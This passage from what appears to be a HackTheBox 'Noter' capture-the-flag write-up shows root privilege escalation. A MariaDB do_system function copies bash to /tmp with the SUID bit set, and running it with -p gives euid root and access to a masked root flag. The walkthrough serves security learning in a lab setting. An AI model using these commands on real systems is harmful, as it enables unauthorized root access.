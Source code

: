 ```

svc@noter:/dev/shm$ ls -l 0xdf 
-rwxrwxrwx 1 root root 39 Mar 30 21:08 0xdf
svc@noter:/dev/shm$ cat 0xdf 
uid=0(root) gid=0(root) groups=0(root)

```

### Shell

To get a shell, I’ll drop back into `mysql` and copy `bash` and change it to be SUID:

```

MariaDB [mysql]> select do_system('cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf');
+-----------------------------------------------------------+
| do_system('cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf') |
+-----------------------------------------------------------+
|                                                         0 |
+-----------------------------------------------------------+
1 row in set (0.006 sec)

```

I’ll need to find somewhere to work that’s not `/dev/shm`, as that’s mounted `nosuid`:

```

svc@noter:/dev/shm$ mount | grep shm
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)

```

`/tmp` will work fine.

Because of how `bash` drops privs, running this will return a non-root shell:

```

svc@noter:/dev/shm$ /tmp/0xdf
0xdf-5.0$

```

Exiting from that and re-running with `-p` will give root:

```

svc@noter:/dev/shm$ /tmp/0xdf -p
0xdf-5.0# id
uid=1001(svc) gid=1001(svc) euid=0(root) groups=1001(svc)

```

From here, I can read `root.txt`:

```

0xdf-5.0# cat root.txt
1be965e2************************

```

[Alternative Noter Root »](/2022/09/28/htb-noter-alternative-root-first-blood.html)